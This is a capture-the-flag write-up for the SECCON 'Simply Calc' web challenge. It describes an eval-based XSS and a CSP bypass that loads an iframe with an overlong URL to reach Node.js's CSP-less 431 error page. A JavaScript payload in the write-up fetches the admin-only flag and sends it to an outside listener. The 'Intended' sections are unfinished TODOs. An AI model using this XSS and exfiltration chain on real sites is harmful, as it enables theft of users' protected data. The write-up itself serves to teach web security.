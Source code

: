 ```yaml
---
title: "[Simply Calc] - SECCON Quals"
tags:
  - CTF
  - Write-up
  - csp-bypass
  - client-side
  - service-worker
categories:
  - CTF
  - Write Up
---
```

![[Screenshot 2024-01-19 at 23.06.45.png]]
# Prologue
SECCON CTF is International yearly competition. The finals will take into Japan. 

![[simple-calc.tar.gz]]
# Write Up
## TL;DR Solution
### Un-intended

The un-intended version of this challenge is. The player creating an iframe with very long url and cause `431` error. The default of that error page in nodejs has a CSP-less, causing player able to bypass the intended CSP. 
### Intended

TODO

## Detailed Explanation

### Un-intended

We were given the full source code for this challenge.
![[Screenshot 2024-01-19 at 23.23.33.png]]

As we can see in the `./challenge/src/static/js/index.js`, player able to control the query string of `expr`, and immediately `eval`-ed by the app. 
```js
// ./challenge/src/static/js/index.js
const params = new URLSearchParams(location.search);
const result = eval(params.get('expr'));
document.getElementById('result').innerText = result.toString();
```

By using `/?expr=alert(document.origin)` and we got a free-xss
![[Screenshot 2024-01-19 at 23.29.30.png]]

But the problem arise when we attempt to access the `/flag`.
```js
// ./challenge/src/index.js
// 8< -- Snip -- >8
app.get('/flag', (req, res) => {
  if (req.cookies.token !== ADMIN_TOKEN || !req.get('X-FLAG')) {
    return res.send('No flag for you!');
  }
  return res.send(FLAG);
});
// 8< -- Snip -- >8
```

As we can see, the CSP is very strict. The challenge CSP has `default-src` and the value is only at `http://localhost:3000/js/index.js`. So, every resources request we make outside that csp will be restricted.
![[Screenshot 2024-01-19 at 23.43.34.png]]

Luckily, In nodejs, the default page for error `431` has CSP-less.
![[Screenshot 2024-01-19 at 23.19.18.png]]

The idea is, we make an iframe with very-very long url to trigger the `413` error. And after that, we will execute JS inside the iframe context.

```js
_=document.createElement('iframe');
_.src=`http://localhost:3000/js/index.js?${"A".repeat(99999)}`;
document.body.appendChild(_);
// give a time to DOM to finish the iframe load
setTimeout(function(){
    _.contentWindow.fetch('/flag', {mode:"same-origin",headers: {"X-FLAG":"nice"}}).then((r)=>r.text()).then((r)=>{location=`http://host.docker.internal:1234/?${r}`});
}, 1000);
```

Send to the bot and we will able to get the flag
![[Screenshot 2024-01-20 at 00.09.21.png]]

![[Screenshot 2024-01-20 at 00.10.07.png]]
### Intended

TODO


# Epilogue
